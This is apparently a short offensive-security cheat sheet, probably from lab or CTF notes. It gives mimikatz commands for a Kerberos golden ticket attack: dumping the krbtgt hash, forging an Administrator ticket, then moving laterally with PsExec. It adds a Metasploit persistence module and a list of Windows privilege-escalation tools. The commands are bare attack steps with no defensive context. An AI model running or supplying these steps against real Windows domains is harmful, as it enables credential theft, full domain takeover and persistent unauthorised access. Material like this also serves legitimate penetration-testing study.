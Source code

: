### Golden Ticket Attacks w/mimikatz

```powershell
.\mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
kerberos::golden /user:Administrator /domain:controller.local /sid:SID /krbtgt:KRBTGT-NTLM /id:500
misc::cmd
.\PSExec.exe \\Desktop-1 cmd.exe
```

### Maintaining Access

```powershell
msfconsole -> use exploit/windows/local/persistence_service
```

---

# PRIVILEGE ESCALATION SCRIPTS

* winPEASany.exe
* seatbelt.exe
* PowerUp.ps1
* SharpUp.exe